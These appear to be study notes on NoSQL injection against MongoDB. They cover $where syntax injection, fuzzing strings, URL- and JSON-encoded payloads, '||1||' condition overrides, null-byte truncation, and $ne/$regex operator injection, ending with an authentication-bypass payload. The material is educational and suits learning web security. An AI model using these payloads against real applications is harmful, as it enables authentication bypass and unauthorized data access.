 
## syntax injection 
- this type is very rare now

consider this mongodb query for the following examples : 
```js
db.users.find({ $where: function () { return this.name == <userInput> } });
```

#### **Detecting syntax injection**
- submit strings and special characters that trigger a database error or some other detectable behavior 
EX : mongodb 
```mongodb
'"`{
;$Foo}
$Foo \xYZ
```
Url version : 
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- In some applications, you may need to inject your payload via a JSON property instead 
JSON version :
```

'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

#### **Determining which characters are processed**
```
https://insecure-website.com/product/lookup?category='    => cause error
https://insecure-website.com/product/lookup?category=\'   => work
```

#### **Confirming conditional behavior**
```
' && 0 && 'x
' && 1 && 'x
```

#### **Overriding existing conditions**
payload:
```
'||1||'
```
url sent:
```
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27
```
mongodb query in backend :
```js
db.users.find({ $where: function () { return this.name == 'fizzy'||'1'=='1' } });
```

- You could also add a **null character** after the category value. MongoDB may ignore all characters after a null character. 
- This means that any additional conditions on the MongoDB query are ignored

**EX:** all products in the fizzy category are displayed, including unreleased products : 
```
db.products.find({ $where: function () { return 'fizzy'\u0000' && this.released == 1 });
```

## NoSQL operator injection

Operator | Description
--- | ---
`$where` | Matches documents that satisfy a JavaScript expression. This operator allows you to write custom JavaScript functions to filter and select documents in a collection. It's a powerful but potentially slow operator, so use it with caution.
`$ne` | Matches all values that are not equal to a specified value. It's used to find documents where a specific field is not equal to a given value.
`$in` | Matches all of the values specified in an array. It's used to find documents where a specific field's value is one of the values in a provided array.
`$regex` | Selects documents where values match a specified regular expression. It's used for pattern matching to find documents with values that match a given regular expression pattern. This is especially useful for text-based searches.


#### **Submitting query operators**

In JSON:
```json
{"username":{"$ne":"invalid"}}
```
In URL-based:
```
GET : 

http://vulnApp/login/?username[$ne]=invalid

POST :

username[$ne]=invalid

```

Auth bypass Example : 
```json 
{
"username":{
"$regex" : "admin.*"
},
"password":{
"$ne" : "ayklam"
}
}
```

